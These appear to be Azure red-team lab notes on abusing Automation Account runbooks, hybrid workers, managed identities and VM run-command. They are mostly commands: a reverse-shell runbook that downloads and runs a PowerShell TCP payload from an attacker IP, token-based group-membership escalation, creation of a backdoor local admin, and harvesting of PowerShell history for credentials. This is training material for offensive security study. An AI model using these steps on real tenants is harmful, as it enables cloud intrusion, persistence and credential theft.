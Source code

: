 # Privilege Escalation/Lateral Movement

#### Automation Account

* Azure's automation service that allows to automate tasks for Azure resources, on-prem infra and other cloud providers.
* Supports Process Automation using Runbooks, Configuration Management (supports DSC), update management and shared resources (credentials, certificates, connections etc) for both Windows and Linux resources hosted on Azure and on-prem.
* Some common scenarios for automation as per Microsoft(documentation):
  * Deploy VMs across a hybrid environment using run books.
  * Identify configuration changes
  * Configure VMs
  * Retrieve Inventory

**Automation Account - Managed Identities**

* Managed Identity is used to provide authentication for managing Azure resources.
* Now retired, Run As account used to have the Contributor role in the current subscription.
* Many organizations simply use the same permissions for the Managed Identity now.
* The Managed Identity can only be used from inside a Runbook, so Contributor on a Runbook = profit!

**Automation Account - Runbooks**

* Runbook contains the automation logic and code that you want to execute.
* Azure provides both Graphical and Textual (PowerShell, PowerShell Workflow and Python) Runbooks.
* You can use the Shared Resources (credentials, certificates, connections etc) and the privileges of the Run As account from a Runbook.
* Always checkout Runbooks! They often have credentials that are not stored in the shared resources.
* By default, only signed script can be run on a VM.
* Runbooks can run in Azure Sandbox or a Hybrid Runbook Worker

**Automation Account - Hybrid Worker**

* This is used when a Runbook is to be run on a non-azure machine.
* A user-defined hybrid runbook worker is a member of hybrid runbook worker group.
* The Log Analytics Agent is deployed on the VM to register it as a hybrid worker.
* The hybrid worker jobs run as `SYSTEM` on Windows and `nxautomation` account on Linux

**Privilege Escalation - Automation Accoun**

* Automation Account comes very handy in privilege escalation:
  * Usually, high privileges for the Managed Identity.
  * Often, clear-text credentials can be found in Runbooks. For example, a PowerShell runbook may have admin credentials for a VM to use `PSRemoting`.
  * Access to connections, key vaults from a runbook.
  * Ability to run commands on on-prem VMs if hybrid workers are in use.
  * Ability to run commands on VMs using DSC in configuration management.

[Abusing Azure DSC — Remote Code Execution and Privilege Escalation](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

**Lateral Movement from cloud to on-prem using command execution on a hybrid worker**

```batch
C:\\AzAD\\Tools\\netcat-win32-1.12\\nc64.exe -lvp 4444
ls env:

az ad signed-in-user show 

az extension add --upgrade -n automation
az automation account list

az ad signed-in-user list-owned-objects
az account get-access-token --resource-type ms-graph
```

Use the `ms-graph` token to add user to the group.

```powershell
$Token = "eyJ0.."
Connect-MgGraph -AccessToken ($Token | ConvertTo-SecureString -AsPlainText -Force)
$params = @{
 "@odata.id" = "<https://graph.microsoft.com/v1.0/directoryObjects/f66e133c-bd01-4b0b-b3b7-7cd949fd45f3>"
}
# GroupID of Automation Admins group we are adding MarkDwalden to the group.
New-MgGroupMemberByRef -GroupId e6870783-1378-4078-b242-84c08c6dc0d7 -BodyParameter $params
```

Requesting token for ARM

```batch
az automation account list
az role assignment list --assignee MarkDWalden@defcorphq.onmicrosoft.com

az account get-access-token
az account get-access-token --resource-type ms-graph
```

```powershell
$accesstoken = "eyJ0.."
$MSGraphToken = "eyJ0.."
Connect-AzAccount -AccessToken $accesstoken -MicrosoftGraphAccessToken $MSGraphToken -AccountId f66e133c-bd01-4b0b-b3b7-7cd949fd45f3
Get-AzRoleAssignment

# Check if a hybrid worker group exists
Get-AzAutomationHybridWorkerGroup -AutomationAccountName HybridAutomation -ResourceGroupName Engineering
```

```powershell
# content of student43.ps1
powershell "IEX (New-Object Net.Webclient).downloadstring('http:///172.16.150.43:82/Invoke-PowerShellTcp.ps1');Power -Reverse -IPAddress 172.16.150.43 -Port 4444"
```

```powershell
Import-AzAutomationRunbook -Name student43 -Path C:\\AzAD\\Tools\\student43.ps1 -AutomationAccountName HybridAutomation -ResourceGroupName Engineering -Type PowerShell -Force -Verbose
Publish-AzAutomationRunbook -RunbookName student43 -AutomationAccountName HybridAutomation -ResourceGroupName Engineering -Verbose
Start-AzAutomationRunbook -RunbookName student43 -RunOn Workergroup1 -AutomationAccountName HybridAutomation -ResourceGroupName Engineering -Verbose
```

**Abuse the permission of a Managed Identity on an App Service to get command execution on an Azure VM and extract credentials from the target VM**



```powershell
Connect-AzAccount -AccessToken $AccessToken -AccountId 064aaf57-30af-41f0-840a-0e21ed149946

Get-AzVM -Name bkpadconnect -ResourceGroupName Engineering | select -ExpandProperty NetworkProfile
Get-AzNetworkInterface -Name bkpadconnect368
Get-AzPublicIpAddress -Name bkpadconnectIP
```

```powershell
$passwd = ConvertTo-SecureString "Stud43Password@123" -AsPlainText -Force
New-LocalUser -Name student43 -Password $passwd 
Add-LocalGroupMember -Group Administrators -Member student43
```

```powershell
Invoke-AzVMRunCommand -VMName bkpadconnect -ResourceGroupName Engineering -CommandId 'RunPowerShellScript' -ScriptPath 'C:\\AzAD\\Tools\\adduser.ps1' -Verbose
```

```powershell
$password = ConvertTo-SecureString 'StudxPassword@123' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('studentx', $Password)
$sess = New-PSSession -ComputerName 20.52.148.232 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession $sess

Get-LocalUser
cat C:\\Users\\bkpadconnect\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadLine\\ConsoleHost_history.txt
```

\
